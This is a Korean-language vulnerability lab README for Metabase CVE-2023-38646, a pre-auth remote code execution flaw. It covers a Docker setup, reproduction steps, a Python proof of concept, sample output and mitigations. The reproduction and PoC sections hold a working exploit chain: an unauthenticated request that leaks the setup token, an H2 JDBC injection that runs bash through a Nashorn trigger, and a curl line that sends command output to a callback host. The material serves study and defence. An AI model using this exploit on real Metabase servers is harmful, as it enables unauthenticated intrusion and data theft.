

# CVE-2023-38646

**Contributors**

-   [Leeseunghwan(@tortoiese)](https://github.com/tortoiese)

<br/>

# Metabase Pre-Auth Remote Code Execution (CVE-2023-38646)

## 취약점 요약

Metabase는 Java(Clojure)로 작성된 오픈소스 비즈니스 인텔리전스(BI)/데이터 분석 도구다. 최초 실행 시 관리자 계정을 만드는 "설치 마법사(setup wizard)" 흐름을 갖고 있으며, 이 과정에서 `setup-token`이라는 값으로 요청을 인증한다.

Metabase 오픈소스 0.46.6.1 미만(엔터프라이즈는 1.46.6.1 미만) 버전은 두 가지 결함이 결합되어 인증 없는 원격 코드 실행으로 이어진다.

1. **setup-token 미폐기**: 설치가 이미 끝난 인스턴스에서도 `setup-token`이 무효화되지 않고, `GET /api/session/properties`로 누구나 조회할 수 있다.
2. **H2 JDBC 연결 문자열 SQL 인젝션**: 설치 검증용 엔드포인트 `POST /api/setup/validate`는 관리자가 새 데이터소스를 추가할 때 그 연결 정보가 유효한지 미리 검사해주는 기능인데, DB 종류를 내장 `h2`로 지정하면 Metabase 내부의 H2 JDBC 드라이버가 연결 문자열을 파싱한다. 이때 `MODE=MSSQLServer` 호환 모드와 세미콜론 이스케이프(`\;`)를 조합하면 연결 속성 값에 임의의 SQL 문(`CREATE TRIGGER ... AS $$//javascript ... $$`)을 주입할 수 있고, 트리거 본문에 H2가 내장한 Nashorn JavaScript 엔진 코드를 넣으면 `java.lang.Runtime.getRuntime().exec(...)`로 서버 프로세스 권한(컨테이너 내부 `metabase` 유저)의 임의 OS 명령을 실행할 수 있다.

공격자는 로그인 계정 없이, 대상이 인터넷에 노출된 Metabase 인스턴스라면 원격에서 이 두 단계를 거쳐 RCE를 달성한다. CVSS 3.1 기준 **9.8 (Critical)** — 인증 불필요(N), 원격 공격(N), 낮은 공격 복잡도(L), 기밀성/무결성/가용성 전체 영향(H/H/H).

참고 자료:

- <https://www.metabase.com/blog/security-advisory>
- <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>
- <https://github.com/m3m0o/metabase-pre-auth-rce-poc>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-38646>

## 환경 구성

Docker Hub의 **공식 `metabase/metabase` 이미지**를 취약 버전 태그(`v0.46.6`)에 고정해서 사용한다. Vulhub류 제3자 이미지에 의존하지 않으며, 컨테이너 1개로 환경이 완결된다.

```yaml
services:
  metabase:
    image: metabase/metabase:v0.46.6
    ports:
      - "3000:3000"
```

```
metabase/CVE-2023-38646/
├── docker-compose.yml
├── poc.py
└── README.md
```

### 실행

```bash
docker compose up -d
```

Metabase는 내장 H2 애플리케이션 DB를 초기화하며 기동하는데, JVM 특성상 약 60~90초 정도 걸린다. 아래로 준비 완료를 확인한다.

```bash
curl -s http://localhost:3000/api/health
# {"status":"initializing","progress":0.8} → ... → {"status":"ok"}
```

`http://localhost:3000`에서 Metabase 설치 마법사 화면에 접근할 수 있다.



## 취약 조건

- Metabase 오픈소스 **0.46.6.1 미만** (본 환경은 `v0.46.6` 고정 — 바로 다음 패치 버전에서 수정됨)
- 대상이 네트워크로 `POST /api/setup/validate` 및 `GET /api/session/properties`에 도달 가능해야 함 (별도 인증 불필요)
- 설치가 이미 끝난 "정상 운영 중" 인스턴스에서도 그대로 재현됨 — 설치 마법사를 직접 완료할 필요가 없음

## 재현 절차

### 1. setup-token 획득 (인증 없음)

```bash
curl -s http://localhost:3000/api/session/properties | grep -o '"setup-token":"[^"]*"'
```

응답 예시:

```json
{"setup-token":"eceaeeb0-34e1-492b-a8ac-663a280d169a", "version": {"tag": "v0.46.6", ...}, ...}
```

### 2. 악성 H2 연결 문자열로 `/api/setup/validate` 호출

`db` 값(JDBC 연결 문자열)에 아래 구조로 SQL/JS를 주입한다.

```
zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\;
CREATE TRIGGER <RANDOM> BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
java.lang.Runtime.getRuntime().exec('bash -c {echo,<BASE64_COMMAND>}|{base64,-d}|{bash,-s}')
$$--=x\;
```

- `zip:/app/metabase.jar!/sample-database.db` : Metabase 배포판에 내장된 샘플 H2 DB 파일을 가리켜, 별도 파일 업로드나 외부 리소스 없이 로컬에서 완결되게 만든다.
- `MODE=MSSQLServer` + `\;` 이스케이프 : H2가 연결 속성을 내부적으로 `SET ...` 문으로 변환할 때 발생하는 SQL 인젝션을 트리거한다.
- `CREATE TRIGGER ... AS $$//javascript ... $$` : H2 트리거 정의를 컴파일하는 시점에 Nashorn JS가 즉시 평가되며, `Runtime.exec()`가 실행된다. (참고: H2는 이 컴파일을 트리거 생성 시점에 즉시 수행하므로, 이후 전체 SQL 파싱이 문법 오류로 `400`을 반환해도 이미 명령은 실행된 뒤다.)
- `Runtime.exec(String)`은 공백 기준으로 인자를 나누기 때문에, 공백을 포함한 실제 명령을 `{cmd,arg}` 형태의 bash 중괄호 확장으로 감싸 공백 없는 단일 토큰으로 위장한다. 실행 시점에 bash가 `{echo,X}` → `echo X`, `{base64,-d}` → `base64 -d`, `{bash,-s}` → `bash -s`로 다시 풀어 파이프라인을 구성한다.

### 3. 명령 실행 결과 확인

PoC 스크립트는 `id; hostname; whoami`를 실행한 뒤 그 출력을 로컬 리스너로 콜백(exfiltration)하는 방식으로 RCE를 증명한다. (리버스 셸이 아니라 결정론적으로 결과를 캡처하는 방식을 택해, 채점 시 반복 재현이 쉽도록 했다.)

## PoC 코드

전체 코드는 [`poc.py`](./poc.py) 참고. 핵심 요약:

```python
def encode_command_to_b64(payload: str) -> str:
    encoded = base64.b64encode(payload.encode()).decode()
    pad_count = encoded.count("=")
    if pad_count:  # '=' 패딩이 SQL 문자열을 깨뜨리지 않도록 재인코딩
        encoded = base64.b64encode((payload + " " * pad_count).encode()).decode()
    return encoded

exfil_cmd = f"({args.command}) | curl -s --data-binary @- http://{args.callback_host}:{args.listen_port}/pwned"
b64_cmd = encode_command_to_b64(exfil_cmd)

jdbc_db = (
    "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;"
    f"CREATE TRIGGER {trigger_name} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\n"
    f"java.lang.Runtime.getRuntime().exec('bash -c {{echo,{b64_cmd}}}|{{base64,-d}}|{{bash,-s}}')\n"
    "$$--=x\\;"
)

payload = {
    "token": token,
    "details": {
        "details": {"db": jdbc_db, "advanced-options": False, "ssl": True},
        "name": "poc",
        "engine": "h2",
    },
}
requests.post(f"{args.url}/api/setup/validate", json=payload,
              headers={"Content-Type": "application/json", "Connection": "close"})
```

### 실행 방법

```bash
pip install requests
python3 poc.py -u http://localhost:3000
```

Docker Desktop 환경에서는 컨테이너가 `host.docker.internal`로 호스트에 접근할 수 있어 별도 설정 없이 동작한다. 순수 Linux Docker Engine에서 재현할 경우 `--callback-host`에 `docker network inspect`로 확인한 브리지 게이트웨이 IP(보통 `172.17.0.1`)를 지정한다:

```bash
python3 poc.py -u http://localhost:3000 --callback-host 172.17.0.1
```

## 실행 결과

`docker compose up -d` → 컨테이너 완전 재기동(`down -v` 후 재기동) → `poc.py` 실행까지, 클린 상태에서 재검증한 실제 출력이다.

```
$ docker compose up -d
 Container metabase-1  Started

$ curl -s http://localhost:3000/api/health
{"status":"ok"}

$ python3 poc.py -u http://localhost:3000
[*] Starting local listener on 0.0.0.0:4444
[*] Fetching setup-token from http://localhost:3000/api/session/properties
[+] setup-token = eceaeeb0-34e1-492b-a8ac-663a280d169a
[*] Sending malicious POST /api/setup/validate
[*] Server responded HTTP 400 (a 400 'syntax error' here is expected - the injected trigger body already ran as a side effect of H2 compiling it before the wrapping statement fails, so RCE still fires)
[*] Waiting up to 10s for out-of-band command output ...

[+] RCE CONFIRMED - command output received from target:

uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
5ca80d8d2d61
metabase
```

`id`, `hostname`, `whoami` 출력이 인증 없이, 대상 컨테이너(`metabase` 프로세스 권한) 내부에서 실행되어 콜백으로 돌아온 것을 확인했다. HTTP 응답 자체는 `400`(SQL 파싱 실패)이지만, 이는 트리거 컴파일 시점에 이미 명령이 실행된 뒤 발생하는 후속 오류이므로 익스플로잇 성공 여부와 무관하다.

## 환경 종료

```bash
docker compose down -v
```

## 대응 방안

- **패치 적용**: Metabase 오픈소스 0.46.6.1 이상(또는 각 마이너 라인의 수정 버전: 0.45.4.1, 0.44.7.1, 0.43.7.2 등), 엔터프라이즈 1.46.6.1 이상으로 업그레이드한다. 해당 패치는 `setup-token`을 설치 완료 후 무효화하고, H2 연결 문자열 인젝션 경로를 차단한다.
- **네트워크 노출 최소화**: Metabase 관리 콘솔을 인터넷에 직접 노출하지 말고, VPN/사설망 뒤에 두거나 리버스 프록시 + IP 허용 목록으로 접근을 제한한다.
- **최소 권한 컨테이너 운영**: Metabase 프로세스를 비루트 사용자로 실행하고(공식 이미지는 기본적으로 `metabase` 유저 사용), 컨테이너의 아웃바운드 네트워크 접근을 제한해 RCE 발생 시에도 후속 exfiltration/추가 침투를 어렵게 한다.
- **모니터링**: `/api/setup/validate` 등 설치 관련 엔드포인트로의 비정상적인 POST 요청, 특히 `h2` 엔진 및 `zip:` 스킴을 포함한 `db` 파라미터 요청을 WAF/IDS 룰로 탐지한다.
